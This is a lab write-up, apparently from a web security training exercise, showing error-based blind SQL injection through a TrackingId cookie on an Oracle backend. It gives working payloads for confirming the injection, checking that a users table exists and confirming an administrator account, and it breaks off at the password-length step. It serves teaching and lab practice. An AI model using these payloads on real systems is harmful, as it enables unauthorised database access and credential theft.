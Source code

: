 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/235318856-32ac64d1-b466-40d0-a520-c815ea69df36.png)


## Solution :

Request looks like this 

![image](https://user-images.githubusercontent.com/67383098/235318945-32c26ed1-f2d8-43f0-b0b1-deb1c8bc8f75.png)

Query looks like the following 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

#### Inducing error message -

1. Add an extra `'` symbol. We see that error appears because of incorrect ssql syntax 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''
```

![image](https://user-images.githubusercontent.com/67383098/235319137-b717782b-96c8-4f6a-93eb-2241a20a297b.png)


2. Add 2 extra `'` symbol, we get a response  back which indicates that the sql syntax is correct ('' indicates opening and closing of query & hence correct sql query)

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'''
```
![image](https://user-images.githubusercontent.com/67383098/235319162-3d6159c1-d5e3-4703-9946-371fe3ec3210.png)


#### Conform the reason for error is invalid SQL query -

1. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting: `TrackingId=xyz'||(SELECT '')||'`

![image](https://user-images.githubusercontent.com/67383098/235319327-c9fdadf8-e1a3-4902-a635-a279b2e66d84.png)


In this case, notice that the query still appears to be invalid. This may be because the database used here is **ORACLE** & for that we need to specify a table called **DUAL**. Hence we got this error.

2. Try specifying a predictable table name in the query: `TrackingId=xyz'||(SELECT '' FROM dual)||'`


![image](https://user-images.githubusercontent.com/67383098/235319432-f317d280-2569-49a3-8a7d-dc5738e36dcb.png)

We get  a response without any error , we can confrom that it is an ORACLE database *which requires all SELECT statements to explicitly specify a table name*. 

3. To conform this we can give an invalid query by specifying some random table `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`


![image](https://user-images.githubusercontent.com/67383098/235319570-07267d19-6dee-473c-ad03-c39dc04cf3cb.png)

Hence confirmed.

#### Verify users table exist -

We can verify whether *users* table exist or not by the following command `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`


![image](https://user-images.githubusercontent.com/67383098/235319702-f5296c8c-4ecd-4999-ad71-a91689753022.png)

No error -> implies that users table exist.

> NOTE - Note that the WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break > our concatenation. 

#### Checking whether administrator user is present in db -

We can exploit this error inducing queries to test if admin user is present or not

1. Set **(1=1)** ie. Condition is TRUE - `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

![image](https://user-images.githubusercontent.com/67383098/235319941-2d982c91-19cc-476a-b4e6-0b6038784779.png)

We receive an error. means the condition is *TRUE* so it threw an **divide by 0** error

2. Set **(1=2)** ie. Condition is FALSE - `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

![image](https://user-images.githubusercontent.com/67383098/235320055-5e2c3f57-85ce-4094-9f98-52c614998e7c.png)

We get a 200 response , means the condition failed and hence it returned nothing !

> NOTE- This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition 
> and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains
> a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the
> condition is true.

3. We can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username *administrator* exists: 

```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://user-images.githubusercontent.com/67383098/235320189-6f45a26f-c725-4026-8646-fe910e9e8c44.png)

It shows an error which means there is indeed a user called *administrator*

#### Determine the length of admin's password -







































